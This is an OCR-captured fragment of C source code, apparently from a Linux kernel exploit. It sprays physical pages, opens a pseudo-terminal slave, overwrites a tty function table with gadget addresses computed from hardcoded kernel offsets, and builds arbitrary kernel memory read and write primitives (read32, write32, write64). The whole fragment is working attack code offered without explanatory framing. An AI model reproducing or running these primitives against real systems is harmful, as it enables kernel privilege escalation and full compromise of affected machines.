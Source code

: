 ```c
void list_pfn() {
	int i;
	for (i = 0; i < SPRAY_CNT; i++) {
		printf("PFN[%d] = %lx\n", i, get_pfn(sprayed_pages[i]));
	}
}

void *page_hit() {
	int i;
	for (i = 0; i < SPRAY_CNT; i++) {
		if (memcmp(sprayed_pages[i], zeropage, PAGESIZE)) {
			return sprayed_pages[i];
		}
	}
	return NULL;
}

int get_ptmx_slave(int ptmx_fd) {
	const char *pts_name;
	if (grantpt(ptmx_fd) < 0) {
		perror("grantpt");
		exit(-1);
	}
	if (unlockpt(ptmx_fd) < 0) {
		perror("unlockpt");
		exit(-1);
	}

	pts_name = (const char *)ptsname(ptmx_fd);
	return Open(pts_name, O_RDWR|O_NOCTTY);
}

unsigned int sys_ioctl(int fd, int cmd, unsigned long aux) {
	asm volatile("mov $16, %rax");
	asm volatile("syscall");
}

void write32(unsigned int what, unsigned long where) {
	ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;
	ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;
	ftable[12] = w_gadget;//ioctl
	lseek(fd, 0, SEEK_SET);
	Write(fd, ftable, 0x400);
	ioctl(slave_fd, (what), (where)); 
}

unsigned int read32(unsigned long where) {
	ftable[0] = kernel_base + 0xffffffff81419300 - 0xffffffff80e00000;
	ftable[3] = kernel_base + 0xffffffff81418e60 - 0xffffffff80e00000;
	ftable[12] = r_gadget;
	lseek(fd, 0, SEEK_SET);
	Write(fd, ftable, 0x400);
	return sys_ioctl(slave_fd, 0x1, where - 0x28); 
}

void write64(unsigned long what, unsigned long where) {
	unsigned long part;
	part = what & 0xFFFFFFFF;
	write32((unsigned int )part, where);
	part = what >> 32;
	write32((unsigned int )part, where + 4);
}

```